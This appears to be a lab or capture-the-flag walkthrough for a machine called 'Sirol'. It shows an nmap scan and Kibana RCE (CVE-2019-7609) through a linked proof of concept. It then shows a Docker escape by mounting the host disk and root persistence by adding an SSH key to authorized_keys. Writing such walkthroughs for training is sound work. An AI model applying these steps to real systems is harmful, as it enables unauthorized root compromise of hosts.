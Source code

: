 # Sirol

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.54
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:18 +08
Nmap scan report for 192.168.219.54
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
3306/tcp  open   mysql
5601/tcp  open   esmagent
24007/tcp open   unknown
```

### Kibana RCE

Port 5601 had a Kibana instance running:

<figure><img src="../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

Using the Dev Tools Console, we can check the version that is running:

<figure><img src="../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit:

{% embed url="https://github.com/Cr4ckC4t/cve-2019-7609" %}

Using the above PoC, we can get a shell on the Docker Container:

<figure><img src="../../../.gitbook/assets/image (20) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mount --> Docker Escape

We can use `fdisk` to check the drives that are available:

```
root@0873e8062560:/tmp# fdisk -l
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x16939df4

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 37750783 37748736  18G 83 Linux
/dev/sda2       37752830 41940991  4188162   2G  5 Extended
/dev/sda5       37752832 41940991  4188160   2G 82 Linux swap / Solaris
```

`/dev/sda1` was likely to be the host machine, and we can try to use `mount` on it:

```
root@0873e8062560:/tmp# mkdir /mnt/tmp
root@0873e8062560:/tmp# mount /dev/sda1 /mnt/tmp
```

The above commands would give us `root` access over the host machine's file system:

<figure><img src="../../../.gitbook/assets/image (17) (7).png" alt=""><figcaption></figcaption></figure>

Using this, we can `echo` our own SSH public key into the `authorized_keys` folder for the `root` user, and then just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
